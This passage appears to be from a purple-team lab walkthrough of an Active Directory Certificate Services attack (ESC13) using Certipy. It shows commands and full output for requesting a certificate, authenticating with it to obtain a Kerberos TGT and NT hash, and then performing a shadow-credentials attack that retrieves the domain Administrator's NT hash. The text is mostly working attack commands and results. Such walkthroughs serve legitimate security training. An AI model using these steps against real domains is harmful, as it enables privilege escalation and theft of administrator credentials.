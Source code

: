 [*] Requesting certificate via RPC
[*] Request ID is 61
[*] Successfully requested certificate
[*] Got certificate with UPN 'attacker@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-1114'
[*] Saving certificate and private key to 'attacker.pfx'
File 'attacker.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
```

2. Request a TGT using pass the certificate
```
└─$ certipy auth -pfx attacker.pfx -u attacker -dc-ip 172.16.0.1
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'attacker@purpleteam.local'
[*]     Security Extension SID: 'S-1-5-21-2903762927-2752062241-1101764633-1114'
[*] Using principal: 'attacker@purpleteam.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'attacker.ccache'
[*] Wrote credential cache to 'attacker.ccache'
[*] Trying to retrieve NT hash for 'attacker'
[*] Got hash for 'attacker@purpleteam.local': aad3b435b51404eeaad3b435b51404ee:799f0d26fc89903a127cc2e408f173a5
```

3. Setup the KRB5CCNAME env variable
```
┌──(kali㉿kali)-[~]
└─$ export KRB5CCNAME=./attacker.ccache 
```

4. Using this TGT (which should have elevated privileges on Administrator account due to ESC13 linked OID Insuance policy), we perform a shadow credential attack on the Administrator account
```
└─$ certipy shadow auto -u 'attacker' -k -account 'administrator' -dc-host dc01.purpleteam.local
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] Target name (-target) not specified and Kerberos authentication is used. This might fail
[!] DNS resolution failed: The DNS query name does not exist: dc01.purpleteam.local.
[!] Use -debug to print a stacktrace
[*] Targeting user 'Administrator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'bdfe89f2d83a4eaeaa1547bfb6317712'
[*] Adding Key Credential with device ID 'bdfe89f2d83a4eaeaa1547bfb6317712' to the Key Credentials for 'Administrator'
[*] Successfully added Key Credential with device ID 'bdfe89f2d83a4eaeaa1547bfb6317712' to the Key Credentials for 'Administrator'
[*] Authenticating as 'Administrator' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'administrator@purpleteam.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Restoring the old Key Credentials for 'Administrator'
[*] Successfully restored the old Key Credentials for 'Administrator'
[*] NT hash for 'Administrator': aae723d86a44672c3e7868e441f92f02